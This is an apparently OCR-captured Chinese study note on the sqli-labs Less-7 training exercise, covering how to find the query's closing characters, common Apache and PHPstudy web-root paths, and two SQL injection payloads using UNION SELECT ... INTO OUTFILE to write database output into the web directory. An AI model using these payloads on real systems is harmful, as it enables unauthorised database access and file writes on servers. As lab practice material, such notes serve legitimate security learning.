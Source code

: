 ![image-20220115102841516](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115102841516.png)

提示我们用outfile



尝试去找它的闭合方式：

`"`、`")`、`"))`



**关于写入文件：**

**Apache网站位置**：

/var/www/html/

旧版本：

/var/www/

**PHPstudy目录**：

c:/phpstudy_pro/WWW/Less-7/



后方生成的文件名每一次不能一样，否则无法访问

```
id=-2')) union select 1,database(),3 into outfile "/var/www/html/Less-7/zj1.txt"

id=-2')) union select 1,database(),3 into outfile "c:/phpstudy_pro/WWW/Less-7/zj1.txt"
```

然后直接访问本地文件可得





# less8

